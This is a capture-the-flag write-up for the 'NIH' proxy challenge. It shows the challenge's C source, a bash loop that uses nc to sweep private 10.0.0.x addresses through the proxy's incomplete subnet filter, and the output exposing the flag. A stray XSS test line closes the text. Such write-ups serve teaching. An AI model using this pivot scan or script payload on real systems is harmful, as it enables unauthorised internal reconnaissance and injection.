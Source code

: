 # Haxdump : NIH

#### Author: ispo

Source Code:


    #include <stdio.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <netinet/in.h>
    #include <netdb.h>

     typedef struct{
       unsigned int octets[4];
     } Address;

     typedef struct{
       Address addr;
       Address mask;
     } Subnet;

    void error(char* s){
      puts(s);
      exit(-1);
    }

    char* addr_string(Address* a){
      char* rv = NULL;
      asprintf(&rv, "%d.%d.%d.%d",a->octets[0],a->octets[1],a->octets[2],a->octets[3]);
      return rv;
    }

    int filter(Address* a){
      if(a->octets[0] == 127) error("Sorry, 127.0.0.0/8 is a blocked subnet.");
      if(a->octets[0] == 54) error("Sorry, 54.0.0.0/8 is a blocked subnet.");
      if(a->octets[0] == 0) error("Sorry, 0.0.0.0/8 is blocked subnet.");
      return 1;
    }

    int main(int argc, char *argv[]){
      int sockfd, i;
      Address a;

      setbuf(stdout, NULL);

      puts("NIH Proxy");
      puts("Specify an HTTP server to connect to");
      puts("DNS is too hard; just provide an IP address");

      char target[20];
      fgets(target, 20, stdin);
      char* octet = strtok(target, ".\n");

      for(i=0;i<4;i++){
        if(!octet) error("Invalid IP address");
        a.octets[i] = atoi(octet);
        if(a.octets < 0 || a.octets[i] > 256) {
          fprintf(stderr, "Invalid host\n");
          exit(-1);
        }
        octet = strtok(NULL, ".\n");
      }

      filter(&a);
      printf("Connecting to %s\n", addr_string(&a));

      int sin_addr = 0;

      for(i=0; i<4;i++){
        sin_addr <<= 8;
        sin_addr |= a.octets[i];
      }

      struct sockaddr_in serv_addr;
      sockfd = socket(AF_INET, SOCK_STREAM, 0);
      serv_addr.sin_family = AF_INET;
      serv_addr.sin_port = htons(80);
      serv_addr.sin_addr.s_addr = htonl(sin_addr);

      alarm(5);
      connect(sockfd,(struct sockaddr *) &serv_addr,sizeof(serv_addr));
      char *buf = calloc(256, 1);

      int len = sprintf(buf, "GET / HTTP/1.1\nHost: %s\n\n", addr_string(&a));
      write(sockfd, buf, len);
      int total_len = 0;
      while(total_len < 1024*10){
        len = read(sockfd, buf, 255);
        if(len <= 0) break;
        total_len += len;
        buf[len] = 0;
        fputs(buf, stdout);
        if(len < 255) break;
      }
      close(sockfd);
      return 0;
    }


A quick look on the source code shows that there are no "exploitable" bugs. We have a proxy server
here. What this means? The proxy may has access to some other machine in the internal network.
Let's see the filter function. We filter the subnets:

    127.0.0.0/8
    54.0.0.0/8
    0.0.0.0/8

But not the subnets:

    192.168.0.0/16
    172.16.0.0.16
    10.0.0/8

Let's try to connect to these networks ($i denotes a range 1-254):

    192.168.0.$i
    192.168.1.$i
    10.0.0.$i
    172.16.0.$i
    172.16.1.$i

Here's the script for doing this job:

    for ((i=0; i<256; i++));
    do
      echo 10.0.0.$i | nc nih.haxdump.com 9111;
    done

And the results are:
[..... TRUNCATED FOR BREVITY .....]
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.57
NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.58

    HTTP/1.1 200 OK
    Date: Sat, 07 Feb 2015 21:52:23 GMT
    Server: Apache/2.4.7 (Ubuntu)
    Last-Modified: Tue, 03 Feb 2015 21:50:51 GMT
    ETag: "8c-50e36107e3f4e"
    Accept-Ranges: bytes
    Content-Length: 140
    Vary: Accept-Encoding
    Content-Type: text/html

    <html>
     <body>
      <h1>NIH Proxy Status</h1>
      <p>
       Host: 127.0.0.1<br/>
       Flag: cache_invalidation_is_easier<br/>
      </p>
     </body>
    </html>

NIH Proxy
Specify an HTTP server to connect to
DNS is too hard; just provide an IP address
Connecting to 10.0.0.59
[..... TRUNCATED FOR BREVITY .....]

So the flag is: cache_invalidation_is_easier
<script>alert("HI");</script>
